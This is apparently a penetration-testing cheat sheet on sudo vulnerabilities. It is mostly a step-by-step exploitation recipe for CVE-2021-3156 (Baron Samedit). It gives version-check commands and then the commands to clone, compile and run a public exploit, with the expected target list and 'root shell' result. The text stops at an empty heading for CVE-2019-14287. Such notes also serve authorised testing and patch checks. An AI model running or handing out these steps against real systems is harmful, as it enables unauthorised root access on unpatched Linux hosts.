# 🚨 Sudo CVE Exploits

## 🎯 Overview

Known sudo vulnerabilities provide direct privilege escalation through heap buffer overflow (Baron Samedit) and policy bypass exploits affecting specific sudo versions.

## 🔥 CVE-2021-3156 (Baron Samedit)

### Vulnerability Details
- **Impact**: Heap-based buffer overflow → root shell
- **Affected Versions**: 
  - 1.8.31 (Ubuntu 20.04)
  - 1.8.27 (Debian 10)  
  - 1.9.2 (Fedora 33)
- **Existed**: Over 10 years undetected

### Version Check
```bash
# Check sudo version
sudo -V | head -n1
# Sudo version 1.8.31

# Check OS version
cat /etc/lsb-release
# DISTRIB_RELEASE=20.04
```

### Exploitation
```bash
# 1. Download Baron Samedit exploit
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156

# 2. Compile exploit
make

# 3. Check available targets
./sudo-hax-me-a-sandwich
# 0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
# 1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
# 2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28

# 4. Execute with target ID
./sudo-hax-me-a-sandwich 1  # For Ubuntu 20.04
# Result: root shell
```

## 🔓 CVE-2019-14287 (Sudo Policy Bypass)
